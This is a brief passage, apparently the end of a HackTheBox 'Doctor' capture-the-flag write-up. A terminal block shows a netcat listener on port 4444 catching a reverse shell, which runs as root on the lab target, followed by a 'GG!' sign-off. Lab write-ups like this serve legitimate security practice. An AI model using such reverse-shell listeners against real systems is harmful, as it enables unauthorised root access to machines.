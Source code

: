 ```shell
kali@kali:~/Documents/HackTheBox/doctor$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.10] from (UNKNOWN) [10.10.10.209] 54856
bash: cannot set terminal process group (1134): Inappropriate ioctl for device
bash: no job control in this shell
root@doctor:/# id && uname -a 
id && uname -a
uid=0(root) gid=0(root) groups=0(root)
Linux doctor 5.4.0-42-generic #46-Ubuntu SMP Fri Jul 10 00:24:02 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
root@doctor:/#
```
GG!

🤘💀🤘